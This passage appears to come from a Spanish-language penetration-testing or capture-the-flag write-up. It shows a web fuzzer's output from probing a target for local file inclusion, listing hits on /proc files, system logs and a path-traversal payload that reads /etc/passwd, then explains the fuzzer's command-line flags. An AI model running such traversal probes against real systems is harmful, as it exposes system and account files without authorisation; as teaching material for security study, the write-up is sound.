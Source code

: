 ```bash
000000510:   200        0 L      0 W        0 Ch        "/proc/version"                                                                                                              
000000506:   200        0 L      0 W        0 Ch        "/proc/partitions"                                                                                                           
000000503:   200        0 L      0 W        0 Ch        "/proc/net/dev"                                                                                                              
000000500:   200        0 L      0 W        0 Ch        "/proc/meminfo"                                                                                                              
000000504:   200        0 L      0 W        0 Ch        "/proc/net/route"                                                                                                            
000000497:   200        0 L      0 W        0 Ch        "/proc/cpuinfo"                                                                                                              
000000501:   200        0 L      0 W        0 Ch        "/proc/mounts"                                                                                                               
000000505:   200        0 L      0 W        0 Ch        "/proc/net/tcp"                                                                                                              
000000736:   500        1 L      8 W        98 Ch       "/var/log/syslog"                                                                                                            
000000741:   200        0 L      1 W        8441 Ch     "/var/log/wtmp"                                                                                                              
000000698:   500        1 L      8 W        100 Ch      "/var/log/kern.log"                                                                                                          
000000699:   200        0 L      0 W        0 Ch        "/var/log/lastlog"                                                                                                           
000000671:   500        1 L      8 W        100 Ch      "/var/log/auth.log"                                                                                                          
000000674:   500        1 L      8 W        97 Ch       "/var/log/dmesg"                                                                                                             
000000750:   200        0 L      3 W        2687 Ch     "/var/run/utmp"                                                                                                              
000000929:   200        38 L     54 W       1982 Ch     "///////../../../etc/passwd"                                                                                                 

Total time: 0
Processed Requests: 929
Filtered Requests: 859
Requests/sec.: 0
```

| Parámetros | Descripción |
|--------------------------|
| *-c*       | Para ver el resultado en un formato colorido. |
| *--hc*     | Para no mostrar un código de estado en los resultados. |
| *--hh*     | Para no mostrar respuestas con la cantidad de caracteres especificada. |
| *-t*       | Para indicar la cantidad de hilos a usar. |
| *-b*       | Para usar una cookie de sesión. |
| *-w*       | Para indicar el diccionario a usar en el fuzzing. |
